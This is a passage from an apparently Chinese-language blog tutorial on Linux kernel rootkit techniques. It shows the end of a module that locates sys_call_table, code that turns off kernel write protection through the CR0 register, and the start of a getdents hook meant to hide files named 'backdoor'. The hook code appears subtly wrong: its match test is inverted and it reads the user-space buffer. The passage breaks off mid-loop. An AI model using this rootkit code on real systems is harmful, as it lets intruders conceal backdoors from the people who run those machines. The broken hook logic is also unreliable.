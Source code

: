 ```c
        ptr++;
    }
    return NULL;
}

static int __init sct_init(void) {
    printk(KERN_INFO "sys_call_table: 0x%p", get_sys_call_table());
    return 0;
}

static void __exit sct_exit(void) {
}

module_init(sct_init);
module_exit(sct_exit);
MODULE_LICENSE("GPL");
```

## 3 写保护

利用的是cro寄存器，实现比较简单，两段代码，值得学习

```c
//关闭写保护
write_cr0(read_cr0() & (~0x10000));

//打开写保护
write_cr0(read_cr0() | 0x10000);
```

## 4 例子

### 4.1 hook getdent系统调用实现文件隐藏

原理参考隐藏文件和隐藏进程一文

```c
asmlinkage long my_getdents(unsigned int fd, struct linux_dirent __user *dirp,unsigned int count){
    struct linux_dirent *kdirp,*kdirp2;
    long value,tlen;
    long len = 0;
    value = (*old_getdents) (fd, dirp, count);
    tlen = value;

    kdirp = (struct linux_dirent *) kmalloc(tlen, GFP_KERNEL);
    kdirp2 = kdirp;
    copy_from_user(kdirp, dirp, tlen);
    
    while(tlen > 0)
    {
        len = dirp->d_reclen;
        tlen = tlen - len;
        printk("%s\n",dirp->d_name);
        
        //如果是要隐藏的文件
        if(strstr(dirp->d_name,"backdoor") == NULL)
        {
            printk("find file\n");
            //过滤掉
            memmove(dirp, (char *) dirp + dirp->d_reclen, tlen);
            value = value - len;
            printk(KERN_INFO "hide successful.\n");
        }
        if(tlen)
```